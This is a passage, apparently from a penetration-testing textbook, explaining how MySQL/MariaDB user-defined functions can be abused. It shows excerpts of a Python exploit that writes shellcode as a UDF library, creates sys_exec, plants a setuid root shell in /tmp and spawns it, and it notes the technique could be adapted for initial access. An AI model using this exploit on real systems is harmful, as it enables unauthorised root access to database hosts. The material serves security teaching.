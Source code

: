  It allows database administrators to create custom repeatable functions to accomplish specific objectives.
 
 Conveniently for us, UDFs are written in C or C++ 731 and can run almost anycode we want, including system commands.
 
 Researchers have discovered how to use standard MySQL (and MariaDB) functionality to create these plugins in ways that can be used to exploit systems. 
 
 This specific exploit discusses using UDFs as ways to escalate privileges on a host.
 
 However, we should be able to use the same principle to get an initial shell.
 
  Some modifications will be required but before we start changing anything, let’s take a look at the code.
 
 40 shellcode_x32 = "7f454c4601010100000000000000000...";
41 shellcode_x64 = "7f454c4602010100000000000000000...";
42
43 shellcode = shellcode_x32
44 if (platform.architecture()[0] == '64bit'):
45 shellcode = shellcode_x64
...
71 cmd='mysql -u root -p\'' + password + '\' -e "select @@plugin_dir \G"'
72 plugin_str = subprocess.check_output(cmd, shell=True)
73 plugin_dir = re.search('@plugin_dir: (\S*)', plugin_str)
74 res = bool(plugin_dir)
...
91 print "Trying to create a udf library...";
92 os.system('mysql -u root -p\'' + password + '\' -e "select binary 0x' + shellcode
+ ' into dumpfile \'%s\' \G"' % udf_outfile)
93 res = os.path.isfile(udf_outfile)
...
99 print "UDF library crated successfully: %s" % udf_outfile;
100 print "Trying to create sys_exec..."
101 os.system('mysql -u root -p\'' + password + '\' -e "create function sys_exec retu
rns int soname \'%s\'\G"' % udf_filename)
102
103 print "Checking if sys_exec was crated..."
104 cmd='mysql -u root -p\'' + password + '\' -e "select * from mysql.func where name
=\'sys_exec\' \G"';
105 res = subprocess.check_output(cmd, shell=True);
...
110 if res:
111 print "sys_exec was found: %s" % res
112 print "Generating a suid binary in /tmp/sh..."
113 os.system('mysql -u root -p\'' + password + '\' -e "select sys_exec(\'cp
/bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh\')"')
114
115 print "Trying to spawn a root shell..."
116 pty.spawn("/tmp/sh");


 
 The first thing we notice is a shellcode variable defined on lines 40-45.
 